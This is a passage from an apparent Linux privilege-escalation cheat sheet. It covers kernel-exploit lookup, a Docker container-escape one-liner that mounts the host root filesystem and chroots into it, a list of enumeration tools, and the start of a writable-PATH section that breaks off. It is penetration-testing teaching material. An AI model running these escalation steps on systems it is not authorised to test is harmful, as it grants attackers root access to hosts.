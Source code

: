 - Check misconfigured services (e.g., running backups via scripts you can edit)
    

---

## 💉 8. **Kernel Exploits**

```bash
uname -r
```

Search for local exploits using [https://www.linuxkernelcves.com/](https://www.linuxkernelcves.com/) or [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

---

## 🧰 9. **Docker / LXC Escape**

Check if inside a container:

```bash
cat /proc/1/cgroup
```

If you're in a container but can run Docker on the host:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

---

## 📚 10. **Useful Tools**

Install or look for these on the system:

- `linpeas.sh`
    
- `les.sh`
    
- `linux-exploit-suggester.sh`
    
- `pspy` (for process spying)
    
- `GTFOBins`
    

---

## 🔧 11. **Writable `PATH` Abuse**

Check if user-writable directory is in `PATH`:

```bash
echo $PATH
```

Exploit:
